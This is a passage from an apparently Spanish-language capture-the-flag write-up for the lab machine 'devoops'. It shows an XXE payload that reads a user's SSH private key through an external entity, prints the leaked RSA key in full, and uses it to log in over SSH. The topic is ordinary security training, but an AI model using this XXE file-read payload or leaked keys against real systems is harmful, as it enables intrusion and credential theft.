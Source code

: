 ```xml
<?xml  version="1.0" encoding="ISO-8859-1"?>
<!DOCTYPE foo [
   <!ELEMENT foo ANY >
   <!ENTITY xxe SYSTEM  "file:///home/roosa/.ssh/id_rsa" >]>
<Block>
        <Author>&xxe;</Author>
        <Subject>test</Subject>
        <Content>test</Content>
</Block>
```

Así quedaría el payload usado para intentar leer ficheros del sistema. Si subimos ese fichero podemos leer la clave privada del usuario roosa.

```bash
-----BEGIN RSA PRIVATE KEY-----
MIIEogIBAAKCAQEAuMMt4qh/ib86xJBLmzePl6/5ZRNJkUj/Xuv1+d6nccTffb/7
9sIXha2h4a4fp18F53jdx3PqEO7HAXlszAlBvGdg63i+LxWmu8p5BrTmEPl+cQ4J
R/R+exNggHuqsp8rrcHq96lbXtORy8SOliUjfspPsWfY7JbktKyaQK0JunR25jVk
v5YhGVeyaTNmSNPTlpZCVGVAp1RotWdc/0ex7qznq45wLb2tZFGE0xmYTeXgoaX4
9QIQQnoi6DP3+7ErQSd6QGTq5mCvszpnTUsmwFj5JRdhjGszt0zBGllsVn99O90K
m3pN8SN1yWCTal6FLUiuxXg99YSV0tEl0rfSUwIDAQABAoIBAB6rj69jZyB3lQrS
JSrT80sr1At6QykR5ApewwtCcatKEgtu1iWlHIB9TTUIUYrYFEPTZYVZcY50BKbz
ACNyme3rf0Q3W+K3BmF//80kNFi3Ac1EljfSlzhZBBjv7msOTxLd8OJBw8AfAMHB
lCXKbnT6onYBlhnYBokTadu4nbfMm0ddJo5y32NaskFTAdAG882WkK5V5iszsE/3
koarlmzP1M0KPyaVrID3vgAvuJo3P6ynOoXlmn/oncZZdtwmhEjC23XALItW+lh7
e7ZKcMoH4J2W8OsbRXVF9YLSZz/AgHFI5XWp7V0Fyh2hp7UMe4dY0e1WKQn0wRKe
8oa9wQkCgYEA2tpna+vm3yIwu4ee12x2GhU7lsw58dcXXfn3pGLW7vQr5XcSVoqJ
Lk6u5T6VpcQTBCuM9+voiWDX0FUWE97obj8TYwL2vu2wk3ZJn00U83YQ4p9+tno6
NipeFs5ggIBQDU1k1nrBY10TpuyDgZL+2vxpfz1SdaHgHFgZDWjaEtUCgYEA2B93
hNNeXCaXAeS6NJHAxeTKOhapqRoJbNHjZAhsmCRENk6UhXyYCGxX40g7i7T15vt0
ESzdXu+uAG0/s3VNEdU5VggLu3RzpD1ePt03eBvimsgnciWlw6xuZlG3UEQJW8sk
A3+XsGjUpXv9TMt8XBf3muESRBmeVQUnp7RiVIcCgYBo9BZm7hGg7l+af1aQjuYw
agBSuAwNy43cNpUpU3Ep1RT8DVdRA0z4VSmQrKvNfDN2a4BGIO86eqPkt/lHfD3R
KRSeBfzY4VotzatO5wNmIjfExqJY1lL2SOkoXL5wwZgiWPxD00jM4wUapxAF4r2v
vR7Gs1zJJuE4FpOlF6SFJQKBgHbHBHa5e9iFVOSzgiq2GA4qqYG3RtMq/hcSWzh0
8MnE1MBL+5BJY3ztnnfJEQC9GZAyjh2KXLd6XlTZtfK4+vxcBUDk9x206IFRQOSn
y351RNrwOc2gJzQdJieRrX+thL8wK8DIdON9GbFBLXrxMo2ilnBGVjWbJstvI9Yl
aw0tAoGAGkndihmC5PayKdR1PYhdlVIsfEaDIgemK3/XxvnaUUcuWi2RhX3AlowG
xgQt1LOdApYoosALYta1JPen+65V02Fy5NgtoijLzvmNSz+rpRHGK6E8u3ihmmaq
82W3d4vCUPkKnrgG8F7s3GL6cqWcbZBd0j9u88fUWfPxfRaQU3s=
-----END RSA PRIVATE KEY-----
```

Ahora vamos a intentar conectarnos por ssh usando esa clave id_rsa.

```bash
❯ ssh -i id_rsa roosa@10.10.10.91
Welcome to Ubuntu 16.04.4 LTS (GNU/Linux 4.13.0-37-generic i686)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/advantage

135 packages can be updated.
60 updates are security updates.

Last login: Sun Feb 19 12:47:05 2023 from 10.10.16.4
To run a command as administrator (user "root"), use "sudo <command>".
See "man sudo_root" for details.

roosa@devoops:~$
```
